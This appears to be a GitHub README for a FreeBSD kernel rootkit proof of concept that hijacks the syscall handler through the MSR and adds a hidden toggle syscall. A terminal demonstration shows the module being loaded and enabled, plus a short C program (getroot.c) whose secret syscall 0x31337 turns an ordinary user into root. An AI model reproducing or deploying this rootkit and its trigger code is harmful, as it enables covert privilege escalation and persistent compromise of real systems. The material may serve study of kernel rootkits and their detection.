 This is a POC for a *rootkit* that I wrote a long time ago that overwrites the MSR and hijack the original syscall handler in order to provide a 'hide' way to escalate the privileges. Additionally, the rootkit adds a new syscall that was created to handle the rootkit. This new syscall receives one argument, 1 or 0, enabling or disabling the rootkit.

Demonstration:

$ uname -a
FreeBSD rootkit 10.0-RELEASE FreeBSD 10.0-RELEASE #5: Wed Nov 26 17:05:04 BRT 2014     andersonc0d3@rootkit:/usr/obj/usr/src/sys/DEBUG  amd64
$ cat /etc/master.passwd
cat: /etc/master.passwd: Permission denied
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ kldstat -v|grep rk.ko
 7    1 0xffffffff81a63000 2a0      rk.ko (./rk.ko)
$ perl -e 'syscall(210,1)'
$ cd rootkit_amd64
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	printf("uid: %d\n",getuid());

	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
uid: 1001
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$
